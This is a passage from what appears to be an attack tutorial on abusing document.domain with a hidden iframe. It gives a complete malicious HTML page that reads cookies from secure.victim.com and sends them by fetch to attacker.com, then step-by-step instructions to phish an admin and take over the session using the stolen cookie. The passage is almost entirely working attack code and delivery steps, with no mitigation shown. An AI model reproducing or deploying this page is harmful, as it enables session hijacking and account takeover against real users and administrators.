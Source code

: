 - iframe injection

You create a malicious page like this:

```
<!-- https://app.victim.com/malicious.html -->
<html>
  <body>
    <script>
      // Set document.domain to match secure site
      document.domain = "victim.com";

      // Wait for iframe to load
      window.onload = function () {
        const iframe = document.getElementById("target");

        iframe.onload = function () {
          try {
            const secret = iframe.contentWindow.document.cookie;
            fetch("https://attacker.com/steal?cookie=" + encodeURIComponent(secret));
          } catch (e) {
            console.log("Exploit failed:", e);
          }
        };
      };
    </script>

    <!-- Load the privileged app -->
    <iframe id="target" src="https://secure.victim.com" style="display:none"></iframe>

  </body>
</html>
```

**Step 3: Deliver the Exploit**

- Send a phishing email or trick an admin into visiting:

```
https://app.victim.com/malicious.html
```

**Step 4: Cookie Theft**

When the admin loads the page:

- The malicious script gains access to iframe.contentWindow.document.cookie from secure.victim.com

- Exfiltrates it to attacker.com

- Attacker now has session token or auth cookie

---

**Step 5: Take Over the Admin Session**

- Attacker imports the cookie in their browser (via EditThisCookie or similar)
